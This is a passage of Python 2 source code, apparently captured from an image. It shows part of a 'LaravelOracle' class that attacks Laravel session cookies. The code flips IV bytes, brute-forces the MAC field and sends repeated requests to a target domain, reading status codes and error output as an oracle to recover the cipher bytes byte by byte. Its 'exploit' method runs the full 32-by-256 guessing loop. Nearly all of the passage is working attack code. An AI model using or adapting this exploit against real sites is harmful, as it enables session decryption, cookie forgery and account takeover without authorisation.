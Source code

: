 ```
        tmp_cookie = dict()
        send_cookie = dict()

        tmp_cookie['iv'] = base64.b64encode(cookie['iv'])
        tmp_cookie['value'] = base64.b64encode(cookie['value'])
        tmp_cookie['mac'] = int(cookie['mac'])

        send_cookie['laravel_session'] = base64.b64encode(json.dumps(tmp_cookie))
        return send_cookie

    def modify_cookie_iv(self, index):
        if len(self.cv) != index:
            print("[-] Something Wrong")
            sys.exit()

        tmp_append = bytearray()
        for each_c in self.cv:
            tmp_append.append(each_c ^ (index+1))

        self.cookie['iv'] = self.cookie['iv'][0:LaravelOracle.block_size-index] + tmp_append

    def modify_cookie_mac(self):
        """
        获取正确的 mac
        一个 32byte 的分组，只有 1 个正确的 mac
        """
        while True:
            send_cookie = self.format_cookie(self.cookie)
            response = requests.get(self.domain, cookies=send_cookie, timeout=self.timeout)
            if response.status_code == 500:
                return True
            self.cookie['mac'] += 1

    def guess_cookie_iv_byte(self, index, value):
        """
        猜测一个字节的 IV
        """

        self.cookie['iv'][LaravelOracle.block_size-index-1] = value
        send_cookie = self.format_cookie(self.cookie)
        response = requests.get(self.domain, cookies=send_cookie, timeout=self.timeout)

        re_result = self.re_pattern.findall(response.content)
        if not re_result:
            if index != 31:
                return False
            if response.status_code == 200:
                self.cv.insert(0, value ^ (index+1))
                return True
        elif int(re_result[0]) >= LaravelOracle.block_size - index:
            return False
        else:
            self.cv.insert(0, value ^ (index+1))
            return True

    def exploit(self):
        for index in xrange(32):
            self.modify_cookie_iv(index)
            for value in xrange(256):
                if self.guess_cookie_iv_byte(index, value):
                    break
            print(index, hex(self.cv[0]))

```